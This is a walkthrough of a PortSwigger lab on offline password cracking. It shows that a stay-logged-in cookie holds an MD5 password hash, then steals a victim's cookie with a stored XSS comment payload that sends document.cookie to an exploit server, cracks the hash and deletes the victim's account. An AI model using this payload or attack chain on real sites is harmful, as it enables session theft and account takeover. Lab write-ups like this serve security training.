

# Offline password cracking

## Description

[This lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking) stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality.

## Reproduction and proof of concept

1. With Burp running, use your own account to investigate the **Stay logged in** functionality. the `stay-logged-in` cookie is a [Base64 encoded MD5 hash](https://crackstation.net/).
2. In the **Proxy -> HTTP history** tab, go to the Response to your login request and highlight the `stay-logged-in` cookie, to see that it is constructed as follows:

```
username+':'+md5HashOfPassword
```

3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS with:

```text

```

4. Go to the exploit server and make a note of the URL.
5. Go to one of the blogs and post a comment containing the following stored XSS payload, remembering to enter your own exploit server ID:

```
<script>document.location='https://exploit-0ada00b603793ec2c37f6a5601690033.exploit-server.net/'+document.cookie</script>
```

6. On the exploit server, open the access log. There should be a GET request from the victim containing their `stay-logged-in` cookie.
7. Decode the cookie in Burp Decoder. The result will be:


8. Copy the hash and paste it into a search engine. This will reveal that the password is `onceuponatime`.



9. Log in to the victim's account, go to the **My account** page, and delete their account to solve the lab.

## Exploitability

An attacker will need to obtain Carlos's `stay-logged-in` cookie and use it to crack his password;then log in as `carlos` and delete his account from the "My account" page. 
